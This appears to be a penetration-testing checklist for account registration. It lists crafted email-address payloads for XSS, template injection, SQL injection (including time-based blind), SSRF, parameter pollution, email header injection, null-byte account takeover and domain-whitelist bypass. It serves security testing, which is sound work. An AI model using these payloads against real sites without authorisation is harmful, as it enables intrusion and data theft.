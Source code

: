 ### **Registration Feature Testing**

- [ ]  Check for duplicate registration/Overwrite existing user. (try with uppercase, +1@..., dots in name, etc)
- [ ]  Check for weak password policy
- [ ]  Check for reuse existing usernames
- Check for insufficient email verification process.
    
    <aside>
    💡 XSS
    
    test+(alert(0))@example.com
    test@example(alert(0)).com
    "alert(0)"@example.com
    <script src=//xsshere?”@email.com
    
    Template injection
    
    "<%= 7 * 7 %>"@example.com
    test+(${{7*7}})@example.com
    
    SQLi
    
    "' OR 1=1 -- '"@example.com
    "mail'); SELECT version();--"@example.com
    a'-IF(LENGTH(database())=9,SLEEP(7),0)or'1'='1\"@a.com
    
    - SSRF
    
    john.doe@abc123.burpcollaborator.net
    john.doe@[127.0.0.1]
    
    - Parameter pollution
    
    [victim&email=attacker@example.com](mailto:victim&email=attacker@example.com)
    
    - (Email) Header Injection
    
    "%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com
    "[recipient@test.com](mailto:recipient@test.com)>\r\nRCPT TO:<[victim+"@test.com](mailto:victim+%22@test.com)
    
    - Wildcard abuse
    
    %@example.com
    
    - Account tko
    
    my%00email@mail.com
    
    - Bypass whitelist
    
    inti([;inti@inti.io](mailto:;inti@inti.io);)@whitelisted.com
    [inti@inti.io](mailto:inti@inti.io)(@whitelisted.com)
    inti+(@whitelisted.com;)@inti.io
    
    #HTML Injection in Gmail
    inti.de.ceukelaire+(<b>bold<u>underline<s>strike<br/>newline<strong>strong<sup>sup<sub>sub)@gmail.com
    